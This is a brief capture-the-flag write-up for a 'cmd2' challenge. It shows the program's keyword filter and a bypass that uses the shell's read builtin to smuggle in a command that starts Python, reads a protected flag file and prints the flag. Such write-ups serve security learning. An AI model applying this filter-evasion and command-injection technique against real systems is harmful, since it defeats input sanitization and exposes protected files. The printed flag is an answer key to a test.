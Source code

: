 # CMD2

In contrast to cmd1, this time we have more strict filters for our input:

```C
int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}
```

since I don't have the PATH environment variable, I've been looking for some useful sh builtins
here: https://www.gnu.org/software/bash/manual/html_node/Bourne-Shell-Builtins.html

I ended up using the read builtin the following way:

```
./cmd2 "read line && \$line"
/usr/bin/python

# Inside the interpreter
with open('/home/cmd2/flag', 'r') as f:
	print(f.read())
```

```
>>> with open('/home/cmd2/flag', 'r') as f:
...     print(f.read())
... 
FuN_w1th_5h3ll_v4riabl3s_haha
```